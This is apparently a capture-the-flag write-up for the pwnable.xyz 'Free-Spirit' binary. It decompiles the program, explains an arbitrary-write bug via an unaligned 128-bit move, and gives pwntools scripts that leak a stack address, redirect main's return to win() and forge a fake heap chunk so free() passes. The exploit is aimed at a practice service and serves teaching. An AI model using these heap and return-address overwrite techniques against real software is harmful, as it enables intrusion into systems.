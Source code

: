 ```yaml
---
title: pwnable.xyz Free-Spirit
date: 2025-2-26
categories: [pwnableXYZ, writeup]
---
```


# Problem

> Free is misbehaving.

- `challenge`: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=f9c9a081578630d7b736a704a82a275c363b22d9, not stripped

# Recon

The `main()` function in pseudo c, `1` can read 32 bytes on to the heap buffer, `2` can leak stack address, and `3` can move the value in heap buffer to somewhere.

{% highlight c linenos %}
// main
void* chunk_addr = malloc(0x40);
while (true) {
    __printf_chk(1, "> ");
    char* buf;
    __builtin_memset(&buf, 0, 0x30);
    read(0, &buf, 0x30);
    int32_t input = atoi(&buf);
    if (input == 1)
        syscall(0, 0, chunk_addr, 0x20); // read(0, chunk_addr, 0x20);
    else {
        if (input == 2) {
            __printf_chk(1, "%p\n", &chunk_addr);
            continue;
        } else if (input == 3) {
            if (limit > 1) continue;
            else {
                int64_t var_60;
                var_60 = *(uint128_t*)chunk_addr;
                continue;
            }
        }
        if (!input) {
            // check stack 
            free(chunk_addr);
        }
        puts("Invalid");
    }
}
{% endhighlight%}

# Exploit

## Arbitrary Write

Take a closer look at line 19 in assembly, the instruction [`movdqu`](https://c9x.me/x86/html/file_module_x86_id_184.html) will move unaligned double quadword, which is 128 bits (16 bytes), from heap buffer to `rsp+0x8`. Notice that `chunk_addr` (`rsp+0x10`) will also be overwrite by 0x0040088d, since we control the heap buffer data through option `1`, this create a arbitrary write. The following payload is able to write to any address repeatedly.

```
00400884  488b442410         mov     rax, qword [rsp+0x10 {chunk_addr}]
00400889  f30f6f00           movdqu  xmm0, xmmword [rax]
0040088d  f30f7f442408       movdqu  xmmword [rsp+0x8 {var_60}], xmm0
```

```
1
<4 bytes to write to chunk_addr><next address to write>
3
```

## Ret2win

Since we can control any address, we can set the return address of `main()` to `win()` (0x400a3e) with the script

```python
# pwn template --host svc.pwnable.xyz --port 30005 ./challenge
io = start()

io.sendafter(b"> ", b"2")
chunk_addr = int(io.recvline().strip().decode(), 16)
log.info(f"{chunk_addr = :x}")
ret_addr = chunk_addr + 0x58

io.sendafter(b"> ", b"1")
io.send(b"a" * 8 + p64(ret_addr))
io.sendafter(b"> ", b"3")
io.sendafter(b"> ", b"1")
io.send(p64(0x400a3e))
```

## Free

However the `free()` on line 25 will cause error, hence won't return from `main()` and no flag for us. In order to `free()` successfully, we need to create a fake chunk, the address of the fake chunk doesn't necessary needs to be in the heap, as long as `address & 8 == 0` will be fine, I choose to use an empty memory `0x601100` to create the fake chunk with following structure

|          |  +0x0  |     +0x8    |
|:--------:|:------:|:-----------:|
| 0x6010f0 |  empty | size = 0x50 |
| 0x601100 |  empty |    empty    |

Combine with the previous scripts

```python
io = start()

io.sendafter(b"> ", b"2")
chunk_addr = int(io.recvline().strip().decode(), 16)
log.info(f"{chunk_addr = :x}")
ret_addr = chunk_addr + 0x58
log.info(f"{ret_addr = :x}")
fake_chunk_addr = 0x601100
log.info(f"{fake_chunk_addr = :x}")
fake_chunk_size = fake_chunk_addr - 0x8
log.info(f"{fake_chunk_size = :x}")

io.sendafter(b"> ", b"1")
io.send(b"a" * 8 + p64(ret_addr))
io.sendafter(b"> ", b"3")
io.sendafter(b"> ", b"1")
io.send(p64(0x400a3e) + p64(fake_chunk_size))
io.sendafter(b"> ", b"3")
io.sendafter(b"> ", b"1")
io.send(p64(0x50) + p64(fake_chunk_addr))
io.sendafter(b"> ", b"3")

io.sendafter(b"> ", b"0")

io.interactive()
```